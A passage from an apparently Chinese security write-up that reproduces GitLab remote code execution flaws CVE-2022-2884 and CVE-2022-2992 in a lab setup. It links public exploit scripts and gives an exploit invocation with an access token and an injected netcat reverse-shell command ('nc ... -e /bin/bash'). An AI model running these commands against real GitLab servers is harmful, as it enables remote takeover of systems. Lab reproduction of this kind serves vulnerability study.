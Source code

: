 访问http://ip/admin/application_settings/network选择Outbound requests修改如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc59pCnQkkGrHYRPOMYL57uuLMe3DNUMNxEvhdhU4gxpcHTqFONbHicPA/640?wx_fmt=png&from=appmsg "")  
  
这一步是为了gitlab服务器能够访问内网的攻击机，在内网复现此漏洞。  
  
最后使用root用户创建一个普通用户test，登录普通用户test生成一个具有api scope的access token  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcVuDysn2v8SBfJEJdNaB1yialLq1G605jDSZuL9zEoHicuRa1C8aB5DEA/640?wx_fmt=png&from=appmsg "")  
### 三、漏洞复现  
  
漏洞分析参考：  
https://ibukifalling.github.io/2023/01/02/cve-2022-2884/  
  
脚本地址：  
https://github.com/m3ssap0/gitlab_rce_cve-2022-2884  
```
git clone https://github.com/m3ssap0/gitlab_rce_cve-2022-2884.git
cd gitlab_rce_cve-2022-2884
pip3 install -r requirements.txt
python3 gitlab_rce_cve-2022-2884.py -u http://10.211.55.5 -pt "d9hBQvQPVrTv13M6DSZK" -tn test -a 10.211.55.3 -p 2345 -c "nc 10.211.55.3 9999 -e /bin/bash"
```  
  
攻击机上收到目标机请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcdbJibJI2BQUqUPKrmxibK03zVX7yM9efodlf5AaXaFYNAWBPWePUFs3A/640?wx_fmt=png&from=appmsg "")  
  
getshell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcM5t3MICmfPwYc8G82ibvPwicias5hnLOVMqRZ1TXaxiaibvRuhR1ho2GDiaQ/640?wx_fmt=png&from=appmsg "")  
## 0x10 授权API端点 ruby 反序列化RCE（CVE-2022-2992）  
### 一、漏洞描述  
  
在11.10.0 <= GitLab CE/EE < 15.1.6、15.2.0 <= GitLab CE/EE < 15.2.4、15.3.0 <= GitLab CE/EE < 15.3.2版本中，允许经过身份验证的用户通过从 GitHub API 端点导入实现远程代码执行。  
  
hackone报告：  
  
https://hackerone.com/reports/1679624  
### 二、环境搭建  
  
使用上面的15.2.2版本进行复现  
  
与上面不同的是这次生成一个具有所有scope的access token  
### 三、漏洞复现  
  
gadget分析：  
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html  
  
脚本地址：  
https://github.com/CsEnox/CVE-2022-2992  
#### 安装攻击机环境  
##### 1.安装ngrok  
  